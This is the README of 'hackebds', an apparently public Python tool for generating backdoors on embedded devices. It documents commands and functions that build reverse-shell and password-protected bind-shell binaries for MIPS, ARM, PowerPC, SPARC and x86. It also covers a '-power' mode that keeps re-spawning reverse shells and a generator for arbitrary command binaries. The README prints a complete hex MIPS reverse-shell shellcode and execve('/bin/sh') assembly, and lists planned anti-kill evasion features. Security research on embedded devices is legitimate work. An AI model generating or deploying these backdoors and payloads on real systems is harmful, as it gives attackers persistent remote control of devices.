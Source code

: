 hackebds
========

| |image1|\ |image2|
| |image3|

🔗\ `中文readme <https://github.com/doudoudedi/hackEmbedded/blob/main/readme_cn.md>`__

foreword
--------

   In the process of penetration and vulnerability mining of embedded
   devices, many problems have been encountered. One is that some
   devices do not have telnetd or ssh services to obtain an interactive
   shell，Some devices are protected by firewall and cannot be connected
   to it in the forward direction Reverse_shell is required, and the
   other is that memory corruption vulnerabilities such as stack
   overflow are usually Null bytes are truncated, so it is more
   troublesome to construct reverse_shellcode, so this tool was
   developed to exploit the vulnerability. This tool is developed based
   on the PWN module and currently uses the python2 language，\ **Has
   been updated to python3**

fuction
-------

**In 0.3.1 version ,bind_shell generate fuction has big bug, This will
cause the file generation to fail，This version has been unpatched,
please use version 0.3.2 and latest**

**On Android reverse\_ shell\_ File and bin\_ There are some bugs in the
shell function. Please replace it with aarch64**

This tool is embedded in the security test of the device. There are two
main functions:

1. Generate **backdoor programs** of various architectures. The backdoor
   program is packaged in shellless pure shellcode and is smal，Pure
   static backdoor .\ **Armv5, Armv7, Armv8, mipsel,
   mips，mips64，mipsel64，powerpc, powerpc64，sparc,sparc64 are now
   supported, and they are still being updated** (PS:bash support is
   added to the reverse shell after version 0.3.1). If the backdoor of
   the reverse shell is generated with the - power parameter, the
   reverse shell will continue to be generated on the target machine)

2. Generate **reverse_shell shellcode** of various architectures during
   the exploit process, and no null bytes, which facilitates the
   exploitation of memory corruption vulnerabilities on embedded
   devices. **Armv5, Armv7, Armv8, mipsel, mips, mips64, mipsel64,
   powerpc, powerpc64，sparc are now supported, and they are still being
   updated**

3. Generate bind of various architectures bind_Shell file.

4. Support command line generation backdoor and shell code, Strong anti
   hunting ability,characterized by light, small, efficient and fast

install
-------

Just use pip to install, if the installation fails, try to use sudo to
install

.. code:: 

   pip(3) install -U hackebds

（If you want this tool to run on a MacOS system, you need to include
python/bin in the bashrc environment variable）

.. code:: 

   echo 'export PATH="/Users/{you id}/Library/Python/{your installed python}/bin:$PATH"'>> ~/.bashrc

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221125095653018.png
   :alt: 

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221121142622451.png
   :alt: 

Instructions for use
~~~~~~~~~~~~~~~~~~~~

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221118202002242.png
   :alt: 

| Please install the corresponding binutils environment before use
| expample:

.. code:: 

   Ubuntu（debian）:
     apt search binutils | grep arm（You can replace it here， if not please execute "apt update" first）
     apt install binutils-arm-linux-gnueabi/hirsute
    MacOS:
    	 https://github.com/Gallopsled/pwntools-binutils
    	 brew install https://raw.githubusercontent.com/Gallopsled/pwntools-binutils/master/osx/binutils-$ARCH.rb

1. Use the command line to generate the backdoor file name, shellcode,
   bindshell, etc

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221206180431454.png
      :alt: 

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shellcode

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102181217933.png
      :alt: 

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file

   By default, the reverse shell backdoor is created using sh. If bash
   is required (PS: here, the bash command needs to exist on the target
   device)

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file -shell bash

   If you need to generate a backdoor and constantly create reverse
   shells (the CPU occupied by the test is about% 8)

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file -shell bash -power

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102183017775.png
      :alt: 

   .. code:: 

      hackebds -bind_port 8080 -passwd 1234 -arch mips -model DIR-823 -res bind_shell

   Create bind_shell to monitor the shell as sh, -power fuction can give
   -shell bash

   .. code:: 

      hackebds -bind_port 8081 -arch armelv7 -res bind_shell -passwd 1231 -power

   The bind_shell process will not stop after being disconnected, and
   supports repeated connections (currently this function is not
   supported by powerpc and sparc series)

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102182939434.png
      :alt: 

   Generate cmd_file function is updated. Only need to specify the - cmd
   parameter to generate programs for various architectures to execute
   corresponding commands , -envp Environment variables are separated by
   commas

   .. code:: 

      hackebds  -cmd "ls -al /" -arch powerpc  -res cmd_file

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20230106153510332.png
      :alt: 

   The list relationship between the output model and the architecture
   is added to the function of generating the backdoor for the specified
   model, which is convenient for observation and modification

   .. code:: 

      hackebds -l

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20230116204717279.png
      :alt: 

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20230106153942787.png
      :alt: 

2. Generate backdoor programs of various architectures, encapsulate pure
   shellcode, and successfully connect to the shell

.. code:: 

   >>> from hackebds import *
   >>> mipsel_backdoor(reverse_ip,reverse_port)
   >>> mips_backdoor(reverse_ip,reverse_port)
   >>> aarch64_backdoor(reverse_ip,reverse_port)
   >>> armelv5_backdoor(reverse_ip,reverse_port)
   >>> armelv7_backdoor(reverse_ip,reverse_port)
   >>> armebv5_backdoor(reverse_ip,reverse_port)
   >>> armebv7_backdoor(reverse_ip,reverse_port)
   >>> mips64_backdoor(reverse_ip,reverse_port)
   >>> mips64el_backdoor(reverse_ip,reverse_port)
   >>> x86el_backdoor(reverse_ip,reverse_port)
   >>> x64el_backdoor(reverse_ip, reverse_port)
   >>> sparc32.sparc_backdoor(reverse_ip, reverse_port)#big endian
   >>> sparc64.sparc_backdoor(reverse_ip, reverse_port)#big endian
   >>> powerpc_info.powerpc_backdoor(reverse_ip, reverse_port)
   >>> powerpc_info.powerpcle_backdoor(reverse_ip, reverse_port)
   >>> powerpc_info.powerpc64_backdoor(reverse_ip, reverse_port)
   >>> powerpc_info.powerpc64le_backdoor(reverse_ip, reverse_port)
   >>> x86_bind_shell(listen_port, passwd)
   >>> x64_bind_shell(listen_port, passwd)
   >>> armelv7_bind_shell(listen_port, passwd)
   >>> aarch64_ bind_ shell(listen_port, passwd)
   >>> mips_bind_shell(listen_port, passwd)
   >>> mipsel_bind_shell(listen_port, passwd)
   >>> sparc32.sparc_bind_shell(listen_port, passwd)
   >>> powerpc_info.powerpc_bind_shell(listen_port, passwd)

（Note that the maximum password length is 4 characters for
x86（32bits） and 8 characters for x64（64bits））

.. code:: 

   >>> mipsel_backdoor("127.0.0.1",5566)
   [+] reverse_ip is: 127.0.0.1
   [+] reverse_port is: 5566
   [*] waiting 3s
   [+] mipsel_backdoor is ok in current path ./
   >>>

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028144512270.png
   :alt: 

.. code:: 

   >>> from hackebds import *
   >>> x86_bind_shell(4466,"doud")
   [+] bind port is set to 4466
   [+] passwd is set to 'doud'
   0x0000000064756f64
   [*] waiting 3s
   [+] x86_bind_shell is ok in current path ./
   >>>

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028143802937.png
   :alt: 

Then connect to the port bound to the device (password exists)

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028144136069.png
   :alt: 

1. Generates the use-back shellcode (no free) null bytes corresponding
   to various architectures

.. code:: 

   >>> from hackebds import *
   >>> mipsel_reverse_sl(reverse_ip,reverse_port)
   >>> mips_reverse_sl(reverse_ip,reverse_port)
   >>> aarch64_reverse_sl(reverse_ip,reverse_port)
   >>> armelv5_reverse_sl(reverse_ip,reverse_port)
   >>> armelv7_reverse_sl(reverse_ip,reverse_port)
   >>> armebv5_reverse_sl(reverse_ip,reverse_port)
   >>> armebv7_backdoor(reverse_ip,reverse_port)
   >>> mips64_reverse_sl(reverse_ip,reverse_port)
   >>> mips64el_reverse_sl(reverse_ip,reverse_port)
   >>> android_aarch64_backdoor(reverse_ip,reverse_port)
   >>> x86el_reverse_sl(reverse_ip,reverse_port)
   >>> x64el_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppc_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppcle_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppc64_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppc64le_reverse_sl(reverse_ip,reverse_port)

example:

.. code:: 

   >>> from hackebds import *
   >>> shellcode=mipsel_reverse_sl("127.0.0.1",5566)
   [+] No NULL byte shellcode for hex(len is 264):
   \xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xea\x41\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01

1. Added that shellcode for calling execve cannot be generated in
   shellcraft (change context generate mips64(el), powerpc shell code
   for execve("/bin/sh",["/bin/sh"]),0))

   .. code:: 

      >>> from hackebds import *
      >>> test = ESH()
      [*] arch is i386
      [*] endian is little
      [*] bits is 32
      >>> test.sh()
      [*] Please set correct assembly schema information(pwerpc or mips64(el))
      >>> context.arch = 'mips64'
      >>> test.sh()
      "\n\t\t\t/* execve(path='/bin/sh', argv=['sh'], envp=0) */\n\t\t\tlui     $t1, 0x6e69\n\t\t\tori     $t1, $t1, 0x622f\n\t\t\tsw      $t1, -8($sp)\n\t\t\tlui     $t9, 0xff97\n\t\t\tori     $t9, $t9, 0x8cd0\n\t\t\tnor     $t1, $t9, $zero\n\t\t\tsw      $t1, -4($sp)\n\t\t\tdaddiu   $sp, $sp, -8\n\t\t\tdadd     $a0, $sp, $zero\n\t\t\tlui     $t1, 0x6e69\n\t\t\tori     $t1, $t1, 0x622f\n\t\t\tsw      $t1,-12($sp)\n\t\t\tlui     $t9, 0xff97\n\t\t\tori     $t9, $t9, 0x8cd0\n\t\t\tnor     $t1, $t9, $zero\n\t\t\tsw      $t1, -8($sp)\n\t\t\tsw      $zero, -4($sp)\n\t\t\tdaddiu   $sp, $sp, -12\n\t\t\tslti    $a1, $zero, -1\n\t\t\tsd      $a1, -8($sp)\n\t\t\tdaddi    $sp, $sp, -8\n\t\t\tli      $t9, -9\n\t\t\tnor     $a1, $t9, $zero\n\t\t\tdadd     $a1, $sp, $a1\n\t\t\tsd      $a1, -8($sp)\n\t\t\tdaddi    $sp, $sp, -8\n\t\t\tdadd     $a1, $sp, $zero\n\t\t\tslti    $a2, $zero, -1\n\t\t\tli      $v0, 0x13c1\n\t\t\tsyscall 0x40404\n\t\t\t"
      >>> test.sh()

chips and architectures
-----------------------

Tests can leverage chips and architectures

| Mips:
| MIPS 74kc V4.12 big endian,
| MIPS 24kc V5.0 little endian (Ralink SoC)
| Ingenic Xburst V0.0 FPU V0.0 little endian

| Armv7:
| Allwinner(全志)V3s

| Armv8:
| Qualcomm Snapdragon 660
| BCM2711

Powerpc, sparc: qemu

🍺enjoy hacking(happy Chinese new Year!)
----------------------------------------

updating
--------

2022.4.19 Added support for aarch64 null-byte reverse_shellcode

2022.4.30 Reduced amount of code using functions and support python3

2022.5.5 0.0.8 version Solved the bug that mips_reverse_sl and
mipsel_reverse_sl were not enabled, added mips64_backdoor,
mips64_reverse_sl generation and mips64el_backdoor, mips64el_reverse_sl
generation

2022.5.21 0.0.9 version changed the generation method of armel V5
backdoor and added the specified generation of riscv-v64 backdoor

2022.6.27 0.1.0 Added Android backdoor generation

2022.10.26 0.1.5 Fixed some problems and added some automatic generation
functions of bindshell specified port passwords

2022.10.27 0.1.6 Add support armv7el_bind_shell(2022.10.27)

2022.11.1 Removed the generation sleep time of shellcode, and added
mips\_ bind\_ Shell, reverse of x86 and x64 small end\_ shell\_
Backdoor, the mips that are expected to be interrupted by mips\_ bind\_
Shell, which solves the error of password logic processing in the
bindshell in mips

|  2022.11.2 Joined aarch64\_ bind\_ shell
|  2022.11.2 Support command line generation backdoor and shell code,
  characterized by light, small, efficient and fast

2022.12.6 0.2.8 Add sparc_bind_shell && powerpc_bind_shell ，fix some
bug

2022.12.26 0.2.9 Added the program function of generating specified
commands, and added executable permissions after generating files

2023.1.6 0.3.0 repaired cmd\_ The file generates the function bug of
executing the specified command program, and adds the model ->arch list,
Android bind\_ Shell file

2023.1.16 0.3.1 Added bash reverse\_ Shell. At present, this tool only
supports sh and bash. The - l function is added to list the relationship
between device model and architecture, and the - power function is added
to generate a more powerful reverse\_ shell\_ File, which realizes the
continuous creation of reverse shell links without killing the program.
Currently, the - power function only supports reverse\_ shell\_ file

2023.1.29 0.3.3 -The power function adds support for bind_shell,
bind_shell is more stable, and fixes some bugs in the execution of
bind_shell and cmd_file files of the aarch64 architecture

Problems to be solved
---------------------

Support the backend of the loongarch64 architecture and the generation
of the bind_shell program (binutils has been integrated into the
mainline, but cannot be installed directly through apt)

Improve the generation of power_bind_shell backdoors of powerpc and
sparc series

Add anti-kill function for backdoor programs

vul fix
-------

CVE-2021-29921 The tool is a complete client program. This vulnerability
will not affect the use of the tool. If you want to fix it, please run
the tool in python 3.9 and above

CVE-2022-40023 DOS_attack pip install -U mako (The vulnerability does
not apply to this tool)

CVE-2021-20270 DOS_attack pip install -U pygments (The vulnerability
does not apply to this tool)

0.2.5 Version Repair directory traversal in the specified model

Verion List
-----------

+--------------------------+--------------+------------------------+
| VERSION                  | PUBLISHED    | DIRECT VULNERABILITIES |
+==========================+==============+========================+
| `0.3.2 <https:/          | 18 Jan, 2023 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.3.2>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.3.1 <https:/          | 16 Jan, 2023 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.3.1>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.3.0 <https:/          | 6 Jan, 2023  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.3.0>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.9 <https:/          | 26 Dec, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.9>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.8 <https:/          | 6 Dec, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.8>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.7 <https:/          | 22 Nov, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.7>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.3 <https:/          | 15 Nov, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.3>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.2 <https:/          | 8 Nov, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.2>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.1 <https:/          | 7 Nov, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.1>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.0 <https:/          | 2 Nov, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.0>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.9 <https:/          | 2 Nov, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.9>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.6 <https:/          | 27 Oct, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.6>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.5 <https:/          | 26 Oct, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.5>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.3 <https:/          | 27 Jun, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.3>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.2 <https:/          | 27 Jun, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.2>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.1 <https:/          | 27 Jun, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.1>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.9 <https:/          | 21 May, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.9>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.8 <https:/          | 5 May, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.8>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.7 <https:/          | 30 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.7>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.6 <https:/          | 30 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.6>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.5 <https:/          | 29 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.5>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.4 <https:/          | 29 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.4>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.3 <https:/          | 29 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.3>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.2 <https:/          | 29 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.2>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.1 <https:/          | 29 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.1>`__ |              |                        |
+--------------------------+--------------+------------------------+

.. |image1| image:: https://img.shields.io/pypi/wheel/hackebds
.. |image2| image:: https://img.shields.io/pypi/pyversions/pwntools
.. |image3| image:: https://static.pepy.tech/badge/hackebds
   :target: https://pepy.tech/project/hackebds
